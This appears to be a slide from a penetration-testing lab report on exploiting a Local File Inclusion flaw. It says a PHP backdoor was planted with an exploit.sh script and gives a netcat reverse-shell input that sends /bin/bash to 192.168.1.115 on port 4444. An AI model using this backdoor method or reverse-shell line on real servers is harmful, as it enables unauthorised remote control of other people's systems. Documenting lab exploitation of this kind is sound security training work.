

# Exploitation: Local File Inclusion (LFI)

Summarize the following:
How did you exploit the vulnerability?
Utilized the exploit.sh script to insert a backdoor php file into the vulnerable web server
Input ‘cmd=nc%20192.168.1.115%204444%20-e%20/bin/bash’ to execute bash terminal
What did the exploit achieve?
Achieved a tunnel to the Target 2 machine
13